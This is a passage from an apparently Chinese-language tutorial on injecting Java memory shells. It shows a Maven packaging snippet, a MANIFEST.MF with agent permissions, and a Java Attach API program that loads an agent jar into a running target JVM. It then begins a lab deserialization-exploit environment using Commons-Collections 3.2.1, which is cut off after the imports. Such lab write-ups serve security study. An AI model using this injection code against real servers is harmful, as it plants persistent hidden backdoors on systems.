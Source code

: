 ```java
            <excludes>
                <exclude>org.apache.storm:storm-core</exclude>
            </excludes>
        </dependencySet>
    </dependencySets>
</assembly>
```
然后先执行下mvn clean清理下之前的历史残留缓存文件。
再去重新执行命令打包就可以成功。
![image-20230707133253407](img/image-20230707133253407.png)成功打包后修改下MANIFEST.MF文件

```java
Manifest-Version: 1.0
Can-Redefine-Classes: true
Can-Retransform-Classes: true
Agent-Class: AgentMain

```
修改再压缩就可以，然后执行注入就可以了
```java
package com.sf;

import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;
import java.io.File;
import java.util.List;
public class AgentMain {
        public static void main(String[] args) throws Exception{
            List<VirtualMachineDescriptor> list = VirtualMachine.list(); // 得到 JVM 进程列表
            for (VirtualMachineDescriptor desc : list){ // 遍历
                String name = desc.displayName(); // 进程名
                String pid = desc.id(); // PID

                if (name.contains("com.sf.agent.AgentApplication")){
                    VirtualMachine vm = VirtualMachine.attach(pid);
                    String path = new File("D:\\Test\\Agent\\Agentmain.jar").getAbsolutePath();
                    vm.loadAgent(path);
                    vm.detach();
                    System.out.println("attach ok");
                    break;
                }
            }
        }
    }
}
```
结果如下：
![image-20230707133259455](img/image-20230707133259455.png)

### 反序列化注入内存马
SpringBoot下的一个含有Common-Collections3.2.1包的反序列化漏洞环境。
自己写了一个反序列化的
```java
package com.sf.zhuque;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ObjectInputStream;

```